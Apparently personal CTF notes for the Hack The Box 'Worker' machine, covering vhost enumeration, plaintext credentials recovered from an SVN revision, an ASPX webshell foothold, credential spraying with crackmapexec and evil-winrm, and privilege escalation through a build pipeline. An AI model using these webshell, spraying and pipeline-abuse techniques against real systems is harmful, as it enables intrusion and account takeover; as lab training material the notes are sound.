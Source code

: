 # ippsec this time
### Grab more hostnames
```bash
❯ curl http://dimension.worker.htb/\#work -s -q | grep -o http://.\*.worker.htb | sed 's/http:\/\///g'
alpha.worker.htb
cartoon.worker.htb
lens.worker.htb
solid-state.worker.htb
spectral.worker.htb
story.worker.htb
```

### vhost fuzz same as above
```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://$IP -H 'Host: FUZZ.worker.htb' -fs 703
```

### Gitlog, svn up -r 2
```bash
❯ svn up -r 2
Updating '.':
A    deploy.ps1
Updated to revision 2.
❯ ls
deploy.ps1  dimension.worker.htb  ferox-http_10_129_2_29:80_-1674788588.state  README.md  results
❯ cat deploy.ps1
$user = "nathen" 
$plain = "wendel98"
$pwd = ($plain | ConvertTo-SecureString)
$Credential = New-Object System.Management.Automation.PSCredential $user, $pwd
$args = "Copy-Site.ps1"
Start-Process powershell.exe -Credential $Credential -ArgumentList ("-file $args")
```

### devops.worker.htb
$user = "nathen" 
$plain = "wendel98"

### Burp NTLM
There is one catch - it won’t work with Burp on in the default configuration. Because it’s using NTLM authentication, Burp breaks it. I showed why in Beyond Root for Sizzle.

Still, it’s useful to know how to get the tools to work for you, and QTC (who happened to earn root blood on Worker) provided that on Twitter:
The problem is that NTLM authenticates the TCP connection, which is not kept alive when using a proxy. However, you can still use Burp:

1. Proxy -> Options -> uncheck "Set Connection Close"
2. User Options -> Platform Authentication -> Add NTLM

### Foothold
Choose an ASPX webshell because of the `X-Powered-By: ASP.NET` header seen during Recon.

Need to use a PR to merge to master to deploy successfully.

http://spectral.worker.htb/cmdasp.aspx

### Enum
```bash
❯ cat passwd | awk '{ print $1 }' > users
❯ cat passwd | awk '{ print $3 }' > passwords

❯ crackmapexec winrm $IP -u users -p passwords --no-bruteforce

WINRM       10.129.96.137   5985   NONE             [+] None\robisl:wolves11 (Pwn3d!)
```
`evil-winrm -i $IP -u robisl -p wolves11`
Creds here show the user is a member of the "Build Administrators"

### Priv
Build a pipeline properly and add ad admin user with inline powershell script.

### writeup
The box been updated. So the offical is perferred.
* https://0xdf.gitlab.io/2021/01/30/htb-worker.html#shell-as-iis